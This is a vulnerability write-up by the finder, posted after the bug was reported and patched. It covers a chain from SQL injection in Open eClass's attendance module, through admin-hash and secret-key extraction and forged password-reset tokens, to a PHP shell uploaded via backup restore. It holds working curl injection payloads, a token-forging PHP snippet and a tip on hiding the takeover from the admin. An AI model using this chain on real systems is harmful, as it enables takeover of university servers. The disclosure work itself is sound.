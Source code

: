 ```yaml
---
title: "E-class < 3.6 code execution"
tags: sql injection eclass
---
```


I've been planning to do this write-up for a while now, but I decided to wait for at least 40 days after reporting this bug before disclosing it, as it concerns the e-class software used by most universities in Greece. The bug reported here has indeed been fixed on the same day that I reported it, so the first part of this shouldn't be possible anymore. I'm also glad to see my own university's e-class has been updated to the latest version, which is safe against this.  
The e-class software I'm referring to is **"open eclass"**, which can be found at <http://www.openeclass.org>. Their Github is [gunet/openeclass](https://github.com/gunet/openeclass).

## Part 1: SQL injection
This chain of exploits depends on this first exploit to work. This is the one that I created an issue for and that has since been fixed. The rest aren't that important.  
The bug resides in the "*attendance*" module of e-class. Modules can be enabled or disabled on each class separately, and that is checked on the current class you're at when you try to access the module. Therefore to take advantage of this bug you'd have to find a class with the *attendance* module enabled. You can see the relevant issue or the diff of the patch which makes it obvious what the SQL injection was. The issue is [issue #14](https://github.com/gunet/openeclass/issues/14) and the patch is commit [fce0882](https://github.com/gunet/openeclass/commit/fce08828cf82ab4afd4a21bee8d86f31526f240b).

The SQL injection entry point is the POST parameter `attendance_id` which is appended to two different SQL queries without sanitization. At first I thought I would have to write something in `attendance_id` that would lead into both lines being valid queries while injecting some SQL in one of them, which seemed a bit tricky. Thankfully that was not the case, and simply injecting some code in order for one of them to be valid resulted in me being able to retrieve whatever I want from the database. The other query would simply return null. (:

Below you can see a curl request that retrieves the admin's password:

```bash
$ curl -X POST \
  'http://localhost:8080/modules/attendance/?course=TMA101' \
  -H 'X-Requested-With: xmlhttprequest' \
  -b 'PHPSESSID=12p9fb8lf8fmth3f9nphstesa3' \
  -F assign_type=3 \
  -F 'attendance_id=11 UNION SELECT id FROM user) UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHERE lol.id = 1 AND 432235211 NOT IN (SELECT username FROM user'
<p>In file <b>/var/www/example.com/public_html/modules/attendance/index.php</b> on line <b>51</b> : <i>Unable to execute statement:"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHER' at line 2", sqlstate:"1064", errornum:"42000", 	statement:"SELECT uid AS id, givenname, surname FROM user, attendance_users                                         WHERE attendance_users.uid = user.id AND attendance_id = 11 UNION SELECT id FROM user) UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHERE lol.id = 1 AND 432235211 NOT IN (SELECT username FROM user ORDER BY surname", 	elapsed:1517578226.0001</i></p>[[{"id":"admin","surname":"$2a$08$rSgapF0VucQFwc0WsOmdy.7rybjOkxtsYUoG.zVMqpGM5wr3GCnkq","givenname":"3"}],null]%       
```

Ouch.

## Part 2: Doing something with the SQL injection

The passwords are encrypted, seemingly with bcrypt, which a quick pass through the source code confirms. There's no easy way to decrypt the admin password. Let's see what else we can pull from the database.

Another table of interest is the `config` table. Its fields are `key` and `value` and it contains specific tuples, inserted when e-class is installed. Most entries are unremarkable, however one stands out: the key is `code_key` and the value is 32 bytes, read from /dev/urandom and then base64 encoded. The function that generates the key is called `generate_secret_key`, so it sounds rather promising. We can easily retrieve its value, as before:

```bash
$ curl -X POST \
  'http://localhost:8080/modules/attendance/?course=TMA101' \
  -H 'X-Requested-With: xmlhttprequest' \
  -b 'PHPSESSID=12p9fb8lf8fmth3f9nphstesa3' \
  -F assign_type=3 \
  -F 'attendance_id=1 UNION SELECT id FROM user) UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.key = "code_key" AND 32235211 NOT IN (SELECT username FROM user'
<p>In file <b>/var/www/example.com/public_html/modules/attendance/index.php</b> on line <b>51</b> : <i>Unable to execute statement:"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.' at line 2", sqlstate:"1064", errornum:"42000", laterstatement:"SELECT uid AS id, givenname, surname FROM user, attendance_users                                         WHERE attendance_users.uid = user.id AND attendance_id = 1 UNION SELECT id FROM user) UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.key = "code_key" AND 32235211 NOT IN (SELECT username FROM user ORDER BY surname", laterelapsed:1518182515.0001</i></p>[[{"id":"code_key","surname":"ZTW+TNpoJr2FTViENRRMcLy+kW2sza\/PJyrb542mx1s=","givenname":"3"}],null]%)'")'
```

Let's see where this secret key is used.

## Part 3: Using the secret key

Besides the points where it's created, `code_key` is referenced in two other places in the code: the `token_generate` method and the corresponding `token_validate` method. The first one hashes a given string, optionally appending the timestamp, to generate an HMAC with the `code_key` as the key of the HMAC. The second one takes a message, a token and the number of seconds for which the token is valid if the message also contains a timestamp. It simply hashes the message again to confirm the HMAC is valid and checks if the time passed since the generation of the token is less that the allowed time, returning whether the token is valid.

There are 23 instances throughout the code of using `token_generate`, most are useless for proceeding further. As I expected though, it is also used to generate the token for resetting a user's password when they have forgotten it. The call that generates the token is:

```php
            $text .= $urlServer . "modules/auth/lostpass.php?u=$data[res_first_attempt]->id&h=" .
                    token_generate('password' . $data['res_first_attempt']->id, true);
```

We see that the token is generated with the string 'password1' where 1 is the user ID (1 in the case of the admin, the first user), using a timestamp.  
We can easily generate the token ourselves with the following PHP snippet:

```php
<?php
function token_generate($info, $need_timestamp = false) {
    if ($need_timestamp) {
        $ts = sprintf('%x-', time());
    } else {
        $ts = '';
    }
    $code_key = 'ZTW+TNpoJr2FTViENRRMcLy+kW2sza\/PJyrb542mx1s=';
    return $ts . hash_hmac('ripemd160', $ts . $info, $code_key);
}

echo(token_generate("password1", true) . "\n");
?>
```

This way we have a token for resetting the admin's password. (: Running this script now, I get the hash `5a8438bf-97dc07f1a8f8e15f3dbe52c3e9d4fe12ef86f576`.

This is different from clicking on the 'forgotten password' link and somehow retrieving the generated token, which is also sent to the admin's email. This generated token isn't stored anywhere on the database, which surprised me, as the first table I looked for in the database was a table that would store these tokens. Instead, the generated token is a signed piece of information that says, 'user x requested a token on this date'. So you can reset a user's password with such a token if you have the way to generate it, even if you never requested it!

We can request a password change as such:

```bash
$ curl -X POST \                                                                                                                                                                   
  'http://localhost:8080/modules/auth/lostpass.php' \      
  -F 'u=1' \                             
  -F 'h=5a8438bf-97dc07f1a8f8e15f3dbe52c3e9d4fe12ef86f576' \                                                                                                                   
  -F 'newpass=admin123' \
  -F 'newpass1=admin123' 
```

## Part 4: Achieving code execution

We can now login with our new credentials! Hopefully the real admin won't try to also login for a while. :)

The admin panel offers many interesting tools, however none allow you to explicitly execute PHP or SQL or anything of the sort. One of the tools, however, does allow you to upload a backup of a class, including all uploaded documents etc. The backup is essentially a zip archive that includes all files that the class contained, plus a bunch of serialized PHP objects for the class metadata.

It's pretty straightforward to add some PHP code for a shell, then. We can download a backup for a class, unzip it, change the `index.php` or add our own PHP file, and use the admin panel to restore the backup. You could even try to do something with the serialized objects, if you were feeling adventurous.

Yay, we now have a shell! You can also read the SQL database credentials now from the appropriate file. One of the first things you could do at this point would be to restore the old (encrypted) admin password which we conveniently retrieved in the first step, so the admin can use the normal credentials to login once again and doesn't notice anything. Other than that, anything is possible!

## Remarks

I was surprised by how secure e-class was overall other than this exploit, which took me some time to find. I had seen an older version of e-class as part of the University security course which was full of security holes, so it was nice to see that almost all of them have been patched as well as the response time once this one was found. There might have been a few other bugs but nothing that could be leveraged like this one, though surely someone with more PHP experience could find something that I didn't. I've been reading the deserialization engine is exploitable but I didn't notice any points a student can provide a serialized object. Of course, ditching PHP altogether would probably be best, but eh, that's easy for me to say.
